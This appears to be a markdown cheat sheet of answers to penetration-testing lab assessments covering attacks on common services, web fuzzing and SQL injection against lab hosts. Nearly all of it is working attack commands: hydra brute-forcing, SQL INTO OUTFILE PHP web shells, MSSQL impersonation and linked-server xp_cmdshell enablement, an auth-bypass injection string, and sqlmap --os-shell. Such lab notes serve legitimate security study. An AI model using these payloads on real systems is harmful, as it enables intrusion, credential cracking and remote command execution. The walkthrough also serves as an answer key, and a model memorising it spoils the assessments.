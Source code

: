 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md

---
### Attacking Common Services:
---
#### Attacking Common Services - Easy:
```
UserEnum:       smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
PW Bruteforce:  hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
Login MySQL:    mysql -h $ip -u <user> -p <password>
SQL RCE:        SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';
RCE:            curl http://$ip/cmd.php?cmd=whoami
```
#### Attacking Common Services - Medium:
```
nmap scan:      nmap $ip -p- --open -o nmap.txt | grep '/tcp' | cut -d'/' -f1 | paste -sd, -
ftp anonymous:  ftp $ip 30021
download file:  get mynotes.txt
PW Bruteforce:  hydra -l simon -P mynotes.txt $ip ssh OR hydra -l simon -P mynotes.txt $ip pop3
Login:          ssh simon@$ip
```

#### Attacking Common Services - Hard:
```
-- 1. Get the names of all databases in the SQL Server instance
SELECT name FROM master.dbo.sysdatabases;
GO

-- 2. Switch to the 'TestingDB' database for further queries
USE TestingDB;
GO

-- 3. Get all tables from the 'TestAppDB' database
SELECT table_name FROM TestAppDB.INFORMATION_SCHEMA.TABLES;
GO

-- 4. Find distinct names of principals who have the 'IMPERSONATE' permission
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';
GO

-- 5. Execute as the 'john' login and check the current user and sysadmin membership
EXECUTE AS LOGIN = 'john';
SELECT SYSTEM_USER;  -- Get the current user
SELECT IS_SRVROLEMEMBER('sysadmin');  -- Check if the user is a sysadmin
GO

-- 6. Get information about linked servers and remote status
SELECT srvname, isremote FROM sys.servers;
GO

-- 7. Enable 'show advanced options' on the linked server
EXEC [LOCAL.TEST.LINKED.SRV].master.dbo.sp_configure 'show advanced options', 1;
GO

-- 8. Apply the configuration changes (RECONFIGURE)
EXEC ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 9. Execute a query on the linked server to get server details and check sysadmin role
EXECUTE ('SELECT @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 10. Enable 'show advanced options' on the linked server using EXECUTE
EXECUTE ('EXEC sp_configure ''show advanced options'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 11. Apply the configuration (RECONFIGURE) on the linked server using EXECUTE
EXECUTE ('RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 12. Enable 'xp_cmdshell' on the linked server
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1;') AT [LOCAL.TEST.LINKED.SRV];
GO

-- 13. Execute a command on the linked server using 'xp_cmdshell' to interact with the file system
EXECUTE ('xp_cmdshell ''type C:\Users\Administrator\Desktop\flag.txt > C:\Users\fiona\Desktop\xc.txt''') AT [LOCAL.TEST.LINKED.SRV];
GO
```
---
### Attacking Web Applications with Ffuf:
---
#### Skills Assessment - Web Fuzzing:
```
Subdomain Fuzzing:            ffuf -u http://academy.htb:54143 -H "Host:FUZZ.academy.htb:54143" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fw 423
Extension Fuzzing:            ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty.academy.htb:54143/indexFUZZ
Page Fuzzing:                 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FUZZ -u http://faculty.academy.htb:54143/FUZZ -recursion -recursion-depth 1 -e .php,.phps,.php7 -fs 287
Parameter Fuzzing (POST):     ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "FUZZ=key" -H "Content-Type: application/x-www-form-urlencoded" -fs 774
Value Fuzzing (POST):         ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:49893/courses/linux-security.php7 -X POST -d "username=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fs 781
     
```

---
### SQL Injection Fundamentals:
---
#### Skills Assessment :

#### For the login:
``` admin' or '1'='1'-- - ```
#### After the login (copy the the request from the browser as cURL):
``` sqlmap 'http://94.237.62 <SNIP> .php' -H 'Cookie: PHPSESSID=avgi9hf5r3hj0kfuh4573o7rr6' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'search=sdsdsds' --data 'search=*' --os-shell --batch ```

#### Alternative Solution:
```
' union select "",'<?php system(pwd); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell1.php'-- -
' union select "",'<?php system("dir /"); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell2.php'-- -
' UNION SELECT 1,LOAD_FILE("/flag_cae1dadcd174.txt"),3,4,5-- -
```

